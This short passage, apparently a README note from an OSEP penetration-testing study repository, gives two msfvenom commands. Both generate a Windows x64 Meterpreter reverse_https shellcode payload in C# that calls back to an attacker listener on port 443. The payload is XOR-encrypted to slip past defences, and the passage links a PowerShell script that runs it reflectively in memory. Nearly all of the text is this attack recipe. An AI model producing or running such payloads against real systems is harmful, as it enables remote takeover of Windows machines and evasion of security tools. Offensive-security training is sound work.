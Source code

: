 Either use: `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp` and ecnrypt manually using xor encrypting function (like in simple shellcode runner),
or use `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a` and decrypt like in process hollowing code.
To run the CSharp payload using Powershell, use https://github.com/ofirsw/OSEP/blob/main/Execution/Invoke-XorReflection.ps1
